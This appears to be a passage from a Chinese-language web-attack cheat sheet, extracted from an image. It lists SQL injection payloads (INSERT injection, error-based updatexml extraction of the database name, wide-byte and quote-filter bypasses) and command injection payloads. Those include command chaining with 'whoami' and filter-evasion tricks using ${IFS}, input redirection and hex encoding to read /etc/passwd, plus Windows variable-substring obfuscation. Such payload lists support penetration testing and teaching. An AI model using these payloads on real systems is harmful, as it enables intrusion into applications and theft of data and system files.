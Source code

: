 - INSERT语句注入

```SQL
xxx',database(),'aaa')-- %23
```

- 报错注入

```SQL
updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

- 宽字节注入

```
%d5
%df
%bf
%a1
```


```
'AND'a'='a
"&&"a"="a
```

- `order by` 后的注入

## 命令注入

- 命令链

```
127.0.0.1; whoami
127.0.0.1 && whoami
xxx || whoami
127.0.0.1 & whoami
127.0.0.1 | whoami
```

- 绕过空格过滤（IFS、输入重定向、Hex编码、空白符替换、Windows环境变量字串）

```
cat${IFS}/etc/passwd
ls${IFS}-la

cat</etc/passwd

X=$'uname\x20-a'&&$X

;ls%09-la%09/home

echo 333%ProgramFiles:~10,-5%4444
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```

- 换行
